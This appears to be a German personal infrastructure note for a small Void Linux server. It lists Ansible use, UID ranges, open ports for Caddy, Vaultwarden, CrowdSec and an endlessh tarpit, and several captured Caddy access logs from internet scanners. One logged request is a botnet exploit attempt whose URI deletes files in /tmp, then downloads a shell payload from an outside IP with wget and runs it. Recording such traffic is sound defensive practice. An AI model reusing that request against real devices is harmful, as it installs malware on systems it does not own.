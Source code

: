 ---
title: ryv.xoryves.de
created_at: 2022-08-03
updated_at: 2023-04-23
tags:
- x5s-infra
- ssh tarpit
- endlessh
- Ansible
---

== Configuration Management

Ich verwende https://www.ansible.com/[Ansible] zur Verwaltung.
Alle anderen Lösungen wie https://www.saltstack.com/[Salt], https://puppet.com/open-source/#osp[Puppet], https://www.chef.io/[Chef], https://cfengine.com/[CFEngine] sind übertrieben für einen einzigen Server.
Einzige Alternative wäre https://www.cdi.st/[cdist].
Ich bezweifle das cdist so viel einfacher ist als Ansible.
Zudem verwendet das Void Linux Projekt selbst auch https://github.com/void-linux/void-infrastructure/tree/master/ansible[Ansible].

Teile der Konfiguration sind im https://github.com/xoryves/x5s-infra[x5s-infra] Repo zu finden.

== UID/GID

system:: 100-999
normal:: 1000-60000
docker:: 10100-10999

endlessh:: 10100 (obsolete)
vaultwarden:: 10101

== Ports

* 22 endlessh nftables redirect
* 80 caddy
* 443 caddy
* 2019 caddy admin
* 2222 endlessh
* 3011 vaultwarden
* 3012 vaultwarden websocket
* 6060 crowdsec prometheus
* 8080 crowdsec
* 8081 crowdsec test env
* 60080 caddy nftables redirect
* 60443 caddy nftables redirect
* 65534 dropbear
* 65535 ssh

== vhosts

diceware:: https://github.com/grempe/diceware[diceware (grempe)]

== interessante logs

=== caddy

.Palo Alto
[%collapsible, role=listing-block code]
====
[source, json]
----
{
  "level": "info",
  "ts": "2022-09-18T22:30:26.340+0200",
  "logger": "http.log.access.log2",
  "msg": "handled request",
  "request": {
    "remote_ip": "205.210.31.151",
    "remote_port": "56379",
    "proto": "HTTP/1.1",
    "method": "GET",
    "host": "xoryves.de",
    "uri": "/",
    "headers": {
      "User-Agent": [
        "Expanse, a Palo Alto Networks company, searches across the global IPv4 space multiple times per day to identify customers&#39; presences on the Internet. If you would like to be excluded from our scans, please send IP addresses/domains to: scaninfo@paloaltonetworks.com"
      ]
    },
    "tls": {
      "resumed": false,
      "version": 771,
      "cipher_suite": 49195,
      "proto": "",
      "server_name": "xoryves.de"
    }
  },
  "user_id": "",
  "duration": 0.00029879,
  "size": 5400,
  "status": 200,
  "resp_headers": {
    "Last-Modified": ["Thu, 08 Sep 2022 19:32:29 GMT"],
    "Accept-Ranges": ["bytes"],
    "Content-Length": ["5400"],
    "Server": ["Caddy"],
    "Etag": ["\"rhwoy5460\""],
    "Content-Type": ["text/html; charset=utf-8"]
  }
}
----
====

.CensysInspect
[%collapsible, role=listing-block code]
====
[source, json]
----
{
  "level": "error",
  "ts": "2022-09-19T22:15:33.626+0200",
  "logger": "http.log.access",
  "msg": "handled request",
  "request": {
    "remote_ip": "162.142.125.211",
    "remote_port": "50666",
    "proto": "HTTP/1.1",
    "method": "GET",
    "host": "xoryves.de",
    "uri": "/",
    "headers": {
      "User-Agent": [
        "Mozilla/5.0 (compatible; CensysInspect/1.1; +https://about.censys.io/)"
      ],
      "Accept": ["*/*"],
      "Accept-Encoding": ["gzip"]
    },
    "tls": {
      "resumed": false,
      "version": 772,
      "cipher_suite": 4867,
      "proto": "",
      "server_name": "xoryves.de"
    }
  },
  "user_id": "",
  "duration": 0.000369875,
  "size": 818,
  "status": 403,
  "resp_headers": {
    "Server": ["Caddy"],
    "Content-Type": ["text/html; charset=utf-8"],
    "Content-Length": ["818"]
  }
}
----
====

.jaws
[%collapsible, role=listing-block code]
====
[source, json]
----
{
  "level": "info",
  "ts": "2022-09-23T21:05:37.168+0200",
  "logger": "http.log.access",
  "msg": "handled request",
  "request": {
    "remote_ip": "156.198.68.66",
    "remote_port": "37171",
    "proto": "HTTP/1.1",
    "method": "GET",
    "host": "127.0.0.1:80",
    "uri": "/shell?cd+/tmp;rm+-rf+*;wget+185.216.71.192/jaws;sh+/tmp/jaws",
    "headers": {
      "User-Agent": ["Hello, world"],
      "Accept": ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"],
      "Connection": ["keep-alive"]
    }
  },
  "user_id": "",
  "duration": 4.4655e-05,
  "size": 0,
  "status": 308,
  "resp_headers": {
    "Connection": ["close"],
    "Location": [
      "https://127.0.0.1/shell?cd+/tmp;rm+-rf+*;wget+185.216.71.192/jaws;sh+/tmp/jaws"
    ],
    "Content-Type": [],
    "Server": ["Caddy"]
  }
}
----
====